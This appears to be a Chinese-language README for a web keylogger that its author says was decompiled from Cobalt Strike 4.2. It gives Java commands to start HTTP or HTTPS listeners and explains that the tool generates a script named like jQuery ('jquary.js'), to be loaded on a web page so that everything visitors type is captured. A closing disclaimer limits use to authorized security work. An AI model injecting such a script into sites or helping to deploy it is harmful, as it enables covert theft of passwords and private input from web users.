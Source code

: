 # Keylogger

* 从cs4.2中反编译后提取的web端键盘记录，记录web页面输入的所有文本内容。(如果感觉对您有帮助，感觉不错的话，请您给个大大的 ⭐️❗️)

**V1.0**
* 支持协议：HTTP/HTTPS
* 默认会在当前目录生成一个jquary.js,放在远程服务器上加载即可～（直接将生成的源码copy到页面也行，不建议js代码太多）

1. HTTP

`java -jar Keylogger-1.0-SNAPSHOT.jar -h 127.0.0.1 -p 9000 -r http`

<img width="565" alt="http" src="https://user-images.githubusercontent.com/63742814/129600533-8d31e89d-0e76-48e4-828b-05b982605dda.png">
<img width="554" alt="截屏2021-08-17 上午12 54 34" src="https://user-images.githubusercontent.com/63742814/129600641-8b77c24a-68b0-4e1f-ae45-45852a70f7bb.png">


2.HTTPS

`java -jar Keylogger-1.0-SNAPSHOT.jar -h 127.0.0.1 -p 9000 -r https -k "/Users/xxx/xxx.keystore" -s 123456`

<img width="570" alt="https" src="https://user-images.githubusercontent.com/63742814/129601182-1fa18e54-1436-4986-bc41-5280a69bd4db.png">
<img width="554" alt="截屏2021-08-17 上午12 54 34" src="https://user-images.githubusercontent.com/63742814/129601198-4e56f8ae-d08d-41b1-9292-02ee26de6bde.png">

3.Help

<img width="564" alt="截屏2021-08-17 上午1 03 26" src="https://user-images.githubusercontent.com/63742814/129601904-7783001b-aa51-46c9-b042-30fdd0363fea.png">


**免责声明**

##
本工具仅能在取得足够合法授权的企业安全建设中使用，在使用本工具过程中，您应确保自己所有行为符合当地的法律法规。


如您在使用本工具的过程中存在任何非法行为，您将自行承担所有后果，本工具所有开发者和所有贡献者不承担任何法律及连带责任。


除非您已充分阅读、完全理解并接受本协议所有条款，否则，请您不要安装并使用本工具。


您的使用行为或者您以其他任何明示或者默示方式表示接受本协议的，即视为您已阅读并同意本协议的约束。

